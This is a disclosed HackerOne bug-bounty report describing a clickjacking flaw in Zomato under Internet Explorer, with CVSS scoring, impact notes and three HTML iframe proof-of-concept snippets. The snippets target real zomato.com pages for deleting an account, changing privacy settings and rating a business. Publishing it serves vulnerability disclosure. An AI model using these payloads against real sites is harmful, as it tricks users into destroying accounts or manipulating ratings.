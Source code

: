 # Clickjacking: Delete Account, Change privacy settings, Rate business, follow/unfollow (IE)

## Report Details
- **Report ID**: 338569
- **URL**: https://hackerone.com/reports/338569
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-04-15T15:07:45.210Z
- **Disclosed**: 2018-04-15T19:04:34.992Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Inspired by report #337219. Please note that this report includes a clear security impact as well as a proof of concept. 

CVSS
----

medium 5.0 [CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:L](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:L)

Description
-----------

The application does not send a X-Frame-Options header, thus allowing pages to be included in iFrames.

There are some specific actions which can be performed with clicks:

- DOS: Deleting an account (requires 3 clicks)
- Confidentiality/Integrity: Change privacy & notification settings (disabling of "Hide my profile from search engines" / "Prevent my profile from showing up in search results" as well as enabling/disabling of newsletters)
- Integrity: Following/Unfollowing users (requires 1 click), Rating a business (requires 2 clicks), Changing the language of the site, etc. Among other, a business could use this to influence its own rating.

Note that attacks will only work in Internet Explorer.  The CSP directive `frame-ancestors` will prevent inclusion of the page in frames in Firefox and Chrome.

Proof of Concept
----------------

Rate a business:

    <div style="position: absolute; left: 430px; top: 490px; pointer-events: none;">Click 1</div>
    <div style="position: absolute; left: 650px; top: 535px; pointer-events: none;">Click 2</div>
    <iframe style="opacity: 0.2;" height="1000" width="1000" scrolling="no" src="https://www.zomato.com/szczecin/bajgle-kr%C3%B3la-jana-%C5%9Br%C3%B3dmie%C5%9Bcie"></iframe>

The following proof of concepts are specific to one user (in this example with the ID 53373042). A general POC which can be reused across users would require two more clicks (opening the menu drop-down + click on settings).

Delete an Account:

    <div style="position: absolute; left: 70px; top: 860px; pointer-events: none;">Click 1</div>
    <div style="position: absolute; left: 330px; top: 600px; pointer-events: none;">Click 2 & 3</div>
    <iframe style="opacity: 0.2;" height="1000" width="1000" scrolling="no" src="https://www.zomato.com/users/simone-eisenberg-53373042/edit"></iframe>

Change privacy settings: 

	<div style="position: absolute; left: 70px; top: 825px; pointer-events: none;">Click 1</div>
	<div style="position: absolute; left: 295px; top: 900px; pointer-events: none;">Click 2</div>
	<iframe style="opacity: 0.2;" height="1000" width="1000" scrolling="no" src="https://www.zomato.com/users/simone-eisenberg-53453315/edit"></iframe>

Tested with IE11. Note that the script needs to be called on a real domain - not from a local file - as IE will otherwise not send the required cookies.

In a real attack, the zomato page would not be displayed. Javascript could also be used to automatically follow the users mouse pointer, so that a user would only need to click x times anywhere on a page instead of needing to click the specific labels.

## Impact

Delete Account, change privacy settings, rate a business, follow/unfollow, etc.

The hacker selected the **UI Redressing (Clickjacking)** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
https://www.zomato.com/

**Can a victim be tricked into unknowingly initiating a specific action?**
Yes

**What specific action can the user be tricked into?**
Delete Account, change privacy settings, rate a business, follow/unfollow, etc.

## Attachments
- zomato-clickjacking.png
